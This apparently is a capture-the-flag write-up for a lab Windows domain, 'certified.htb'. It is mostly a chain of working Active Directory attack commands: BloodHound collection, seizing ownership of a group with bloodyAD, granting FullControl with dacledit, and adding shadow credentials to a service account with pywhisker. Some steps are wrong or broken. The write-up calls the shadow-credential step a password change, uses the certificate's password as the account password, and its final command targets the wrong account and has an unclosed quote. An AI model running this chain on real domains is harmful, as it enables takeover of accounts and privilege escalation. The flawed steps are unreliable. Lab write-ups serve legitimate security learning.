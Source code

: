 
initaial access with given user: 

```
judith.mader:judith09
```

## Run Bloodhound

```
bloodhound.py -u 'judith.mader' -p 'judith09' -d 'certified.htb' -dc dc01.certified.htb -ns 10.129.73.100 -c all
```

Import data to bloodhound

Judith has writeonwer rights on group "Management"
there for we can add judith as the owner of this group. 

this can be done with bloodyAD

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

now we are owner of the group. we can add judith into to groub give her full control rights and then change the password for "management_svc"

```
KRB5CCNAME=judith.mader.ccache dacledit.py -k -no-pass -dc-ip 10.129.73.100 -principal judith.mader -target Management -action write -rights FullControl certified.htb/judith.mader
```

### add judith to Managment group

```
bloodyAD --host 10.129.73.100 -d "certified.htb" -u "judith.mader" -p "judith09" add groupMember Management judith.mader
```

with the following command we can change the password for management_svc

this is done via pywhisker

```
pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
```

now we have changed the password for management_svc

```
❯ pywhisker -d "certified.htb" -u "judith.mader" -p "judith09" -t "management_svc" -a "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b2011c96-19a7-3ad3-f5ce-062635b7e708
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: y8DqIstn.pfx
[*] Must be used with password: JHMLsBj7SBhwkWOKu5QV
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITto
```

### change password for CA_OPERATOR

Management_svc user has GenericAll rights on CA_Operator. Therefore we can now change this password aswell. 

```
pywhisker -d "certified.htb" -u "management_svc" -p "JHMLsBj7SBhwkWOKu5QV" -t "management_svc" -a "add
```